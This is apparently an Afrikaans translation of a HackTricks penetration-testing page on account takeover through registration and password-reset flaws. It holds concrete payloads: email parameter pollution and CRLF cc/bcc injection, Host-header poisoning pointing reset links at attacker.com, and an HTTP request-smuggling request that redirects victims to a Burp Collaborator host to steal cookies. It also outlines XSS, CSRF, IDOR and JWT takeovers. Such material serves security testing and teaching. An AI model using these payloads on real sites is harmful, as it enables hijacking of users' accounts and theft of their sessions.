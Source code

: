 # Registrasie & Oorname Kw vulnerabilities

{{#include ../banners/hacktricks-training.md}}

## Registrasie Oorname

### Dubbele Registrasie

- Probeer om te genereer met 'n bestaande gebruikersnaam
- Kontroleer verskillende e-pos:
- hoofletters
- \+1@
- voeg 'n punt in die e-pos by
- spesiale karakters in die e-pos naam (%00, %09, %20)
- Sit swart karakters na die e-pos: `test@test.com a`
- victim@gmail.com@attacker.com
- victim@attacker.com@gmail.com

### Gebruikersnaam Enumerasie

Kontroleer of jy kan uitvind wanneer 'n gebruikersnaam reeds binne die toepassing geregistreer is.

### Wagwoordbeleid

Skep 'n gebruiker en kontroleer die wagwoordbeleid (kontroleer of jy swak wagwoorde kan gebruik).\
In daardie geval kan jy probeer om akrediteer te brute-force.

### SQL Inbraak

[**Kontroleer hierdie bladsy** ](sql-injection/index.html#insert-statement)om te leer hoe om rekeningoorname te probeer of inligting via **SQL Inbrake** in registrasievorms te onttrek.

### Oauth Oornames


{{#ref}}
oauth-to-account-takeover.md
{{#endref}}

### SAML Kw vulnerabilities


{{#ref}}
saml-attacks/
{{#endref}}

### Verander E-pos

Wanneer geregistreer, probeer om die e-pos te verander en kontroleer of hierdie verandering korrek geverifieer word of of jy dit na arbitrêre e-posse kan verander.

### Meer Kontroles

- Kontroleer of jy **weggooie e-posse** kan gebruik
- **Lang** **wagwoord** (>200) lei tot **DoS**
- **Kontroleer koerslimiete op rekeningskepping**
- Gebruik username@**burp_collab**.net en analiseer die **callback**

## **Wagwoord Herstel Oornames**

### Wagwoord Herstel Token Lek Via Verwysing <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Versoek wagwoord herstel na jou e-posadres
2. Klik op die wagwoord herstel skakel
3. Moet nie wagwoord verander nie
4. Klik op enige 3de party webwerwe (bv: Facebook, twitter)
5. Intercepteer die versoek in Burp Suite proxy
6. Kontroleer of die verwysingskop lek wagwoord herstel token.

### Wagwoord Herstel Vergiftiging <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Intercepteer die wagwoord herstel versoek in Burp Suite
2. Voeg of wysig die volgende koppe in Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Stuur die versoek met die gewysigde kop\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Soek vir 'n wagwoord herstel URL gebaseer op die _host header_ soos : `https://attacker.com/reset-password.php?token=TOKEN`

### Wagwoord Herstel Via E-pos Parameter <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```bash
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR op API Parameters <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Aanvaller moet met hul rekening aanmeld en na die **Verander wagwoord** funksie gaan.
2. Begin die Burp Suite en onderskep die versoek.
3. Stuur dit na die herhaler tab en wysig die parameters: User ID/e-pos\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Swak Wagwoord Herstel Token <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Die wagwoord herstel token moet ewekansig gegenereer word en uniek wees elke keer.\
Probeer om te bepaal of die token verval of as dit altyd dieselfde is, in sommige gevalle is die generasie-algoritme swak en kan dit geraai word. Die volgende veranderlikes mag deur die algoritme gebruik word.

- Tydstempel
- UserID
- E-pos van gebruiker
- Voornaam en Van
- Geboortedatum
- Kriptografie
- Slegs nommer
- Klein token volgorde (karakters tussen \[A-Z,a-z,0-9])
- Token hergebruik
- Token vervaldatum

### Lek van Wagwoord Herstel Token <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Trigger 'n wagwoord herstel versoek deur die API/UI vir 'n spesifieke e-pos bv: test@mail.com
2. Ondersoek die bediener se antwoord en kyk vir `resetToken`
3. Gebruik dan die token in 'n URL soos `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Wagwoord Herstel Deur Gebruikersnaam Botsing <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Registreer op die stelsel met 'n gebruikersnaam wat identies is aan die slagoffer se gebruikersnaam, maar met spasie voor en/of na die gebruikersnaam ingevoeg. bv: `"admin "`
2. Versoek 'n wagwoord herstel met jou kwaadwillige gebruikersnaam.
3. Gebruik die token wat na jou e-pos gestuur is en herstel die slagoffer se wagwoord.
4. Sluit aan by die slagoffer se rekening met die nuwe wagwoord.

Die platform CTFd was kwesbaar vir hierdie aanval.\
Sien: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Rekening Oorname Deur Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Vind 'n XSS binne die toepassing of 'n subdomein as die koekies op die ouerdomein geskope is: `*.domain.com`
2. Lek die huidige **sessies koekie**
3. Verifieer as die gebruiker met behulp van die koekie

### Rekening Oorname Deur HTTP Versoek Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Gebruik **smuggler** om die tipe HTTP Versoek Smuggling (CL, TE, CL.TE) te detecteer\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Stel 'n versoek op wat die `POST / HTTP/1.1` met die volgende data sal oorskryf:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` met die doel om die slagoffers na burpcollab te herlei en hul koekies te steel\
3\. Finale versoek kan soos volg lyk
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone verslae wat hierdie fout benut\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Rekening Oorname via CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Skep 'n payload vir die CSRF, bv: “HTML vorm met outomatiese indiening vir 'n wagwoord verandering”
2. Stuur die payload

### Rekening Oorname via JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token mag gebruik word om 'n gebruiker te verifieer.

- Wysig die JWT met 'n ander Gebruiker ID / E-pos
- Kontroleer vir swak JWT handtekening


{{#ref}}
hacking-jwt-json-web-tokens.md
{{#endref}}

## Verwysings

- [https://salmonsec.com/cheatsheet/account_takeover](https://salmonsec.com/cheatsheet/account_takeover)

{{#include ../banners/hacktricks-training.md}}
